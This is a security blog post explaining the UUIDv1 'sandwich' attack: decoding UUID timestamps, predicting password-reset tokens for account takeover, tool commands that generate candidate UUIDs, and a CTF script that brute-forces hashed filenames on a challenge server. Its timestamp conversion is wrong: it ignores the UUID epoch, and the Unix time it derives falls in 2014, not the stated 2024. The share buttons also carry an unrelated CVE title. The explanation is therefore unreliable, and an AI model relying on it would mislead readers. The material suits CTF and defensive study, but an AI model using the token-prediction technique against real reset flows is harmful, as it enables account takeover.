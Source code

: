 ```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
tags: [hacking, cybersecurity, nullsecurityx]
image: /assets/images/uuidv1.png
---
```


### UUID Sandwich Attack – Version 1

A **UUID** (Universally Unique Identifier), also known as **GUID**, has both vulnerable versions and stronger iterations that have emerged over time. These randomly generated unique values are produced at micro- or nanosecond precision. Although the chance of duplication is extremely low, it is never truly zero. Identical values *can* be generated, though detecting them is extremely difficult. The probability of duplication is low but never zero.

**Example UUID**:  
```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

### Exploitation

The **Sandwich Attack** usually appears in **UUID version 1**, which relies on time and MAC address for generation. This can lead to vulnerabilities such as **Account Takeover, BOLA, or IDOR**. UUIDv1 values produced within the same timestamp can be duplicated, enabling exploitation.

On Linux, you can generate values with the `uuid` command.

UUID v1: `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`  
Here, the values `a367` and `86bc` differ, but the MAC portion `005056260027` remains constant.

UUID v4: `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e`  
Here the difference is complete. UUIDv4 offers ~99.9% safety, but UUIDv1 significantly increases risk.

For exploitation, see Burp Suite extension:  
https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248  

Also reference: https://datatracker.ietf.org/doc/html/rfc4122  

![uuidv1](/assets/images/uuidv1.png)

### 10 Sequential Generations

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

As seen, time is highly sensitive:

`Timestamp: 139384289967400006`  
`Timestamp: 139384289967400007`  

The changing part `f2c6e447-3145-11ef` encodes the time. The MAC portion `08:00:20:0c:9a:66` often remains static.

### UUID Extraction

Example UUID: `5c1dba54-ee3e-11ee-a951-0242ac120002`  
Time portion: `1eeee3e5c1dba54`  

![uuid extract](/assets/images/UUID2.jpg)

Decode timestamp:  

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Convert to decimal:  

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

This corresponds to Epoch time `Saturday, 30 March 2024 02:36:49`.  

Using GuidReaper:  

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Reverse engineering UUIDv1 allows exploitation using **Time Manipulation**.

### Exploitation Scenario

1. Suppose the system generates a password reset link using UUID.  
2. Attacker account: `uuid@attack.com`, victim account: `victim@attack.com`.  
3. Both trigger password reset at the same time.  

Victim link:  

```php
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```  
Time: 2024-06-23 10:25:06.471000  

Attacker link:  

```php
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```  
Time: 2024-06-23 10:25:10.167000  

A 4-second difference shows how concurrency flaws could enable account takeover.  

With GuidTool, UUIDs can be generated for specific timestamps:  

```js
guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 
```

This produces many values for a target time. Such weaknesses can lead to **BOLA**, **IDOR**, or **Account Takeover**.  

See: [Uuid-Exploitation](https://github.com/cagrieser/Uuid-Exploitation)  

### CTF Scenario

In an IguCTF challenge, we exploited UUIDv1 Sandwich to access unauthorized files and retrieve a flag.  

![igu cyber](/assets/images/IguCyber.png)

Hashing filenames locally avoids server overload. Example script:  

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'

def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        pdf_content = response.content
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        return pdf_file.getDocumentInfo()
    return None

with open('FullAttackUUID.txt', 'r') as file:
    for line in file:
        filename = line.strip() + '.pdf'
        if md5_hash(filename) == target_hash:
            print(Fore.GREEN + f"Match found: {filename}")
            url = f"https://demindensimdiyegeldim.igusiber.com.tr/{filename}"
            metadata = get_pdf_metadata_from_url(url)
            if metadata:
                for key, value in metadata.items():
                    print(f"{key}: {value}")
            break
```

### Final

UUIDv1 is predictable due to timestamps and MAC addresses, making it exploitable. UUIDv4 is safer, but UUIDv1 remains in use, creating risks.
-NullSecurityX

![exp](/assets/images/exp.png)  
<br>

<!-- Share Buttons Start --> <div class="share-buttons"> <p>Share this post:</p> <a class="share-btn twitter" href="https://twitter.com/intent/tweet?text=CVE-2025-29927: Next.js Middleware Authorization Bypass&url={{ page.url | absolute_url }}" target="_blank">Twitter</a> <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a> <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=CVE-2025-29927: Next.js Middleware Authorization Bypass" target="_blank">Reddit</a> </div> <style> .share-buttons { margin-top: 30px; font-family: sans-serif; } .share-buttons p { margin-bottom: 8px; font-weight: bold; } .share-buttons .share-btn { display: inline-block; margin-right: 8px; padding: 8px 14px; color: #fff; text-decoration: none; border-radius: 5px; font-size: 14px; transition: opacity 0.2s; } .share-buttons .share-btn:hover { opacity: 0.8; } .share-buttons .twitter { background: #1da1f2; } .share-buttons .facebook { background: #4267B2; } .share-buttons .reddit { background: #ff4500; } </style> <!-- Share Buttons End -->

---

## Acknowledgment

I would like to sincerely thank [Çağrı Eser](https://cagrieser.com/) for his invaluable contributions and support.  

You can connect with him on [LinkedIn](https://www.linkedin.com/in/cagrieser/).




